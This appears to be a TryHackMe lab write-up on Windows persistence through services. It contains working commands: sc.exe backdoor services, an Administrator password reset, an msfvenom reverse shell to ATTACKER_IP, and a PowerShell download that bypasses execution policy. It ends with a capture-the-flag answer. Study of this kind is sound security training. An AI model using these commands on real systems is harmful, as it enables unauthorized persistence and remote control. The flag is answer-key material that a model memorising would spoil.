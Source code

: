 There are two main ways we can abuse services to establish persistence: either create a new service or modify an existing one to execute our payload.

### Creating backdoor services

We can create and start a service named "THMservice" using the following commands:

```shell-session
sc.exe create THMservice binPath= "net user Administrator Passwd123" start= auto
sc.exe start THMservice
```

**Note:** There must be a space after each equal sign for the command to work.

The "net user" command will be executed when the service is started, resetting the Administrator's password to `Passwd123`. Notice how the service has been set to start automatically (start= auto), so that it runs without requiring user interaction.

Resetting a user's password works well enough, but we can also create a reverse shell with msfvenom and associate it with the created service. Notice, however, that service executables are unique since they need to implement a particular protocol to be handled by the system. If you want to create an executable that is compatible with Windows services, you can use the `exe-service` format in msfvenom:

```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4448 -f exe-service -o rev-svc.exe
```

You can then copy the executable to your target system, say in `C:\Windows` and point the service's binPath to it:

```shell-session
sc.exe create THMservice2 binPath= "C:\windows\rev-svc.exe" start= auto
sc.exe start THMservice2
```

This should create a connection back to your attacker's machine.

```
powershell -ExecutionPolicy Bypass -Command `
  "Invoke-WebRequest -Uri http://IP:8000/rev-svc.exe `
                     -OutFile C:\Windows\Temp\rev-svc.exe"

```

![THM flag](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/2cbaa6465407d8b45e363f24a33efec6.png)

Use the reverse shell you just gained to execute `C:\flags\flag7.exe`

Once we did all steps, we get a shell:

![](gitbook/cybersecurity/images/Pasted%20image%2020250515164255.png)

Let's get our flag:

```
C:\flags>.\flag7.exe

THM{SUSPICIOUS_SERVICES}
```
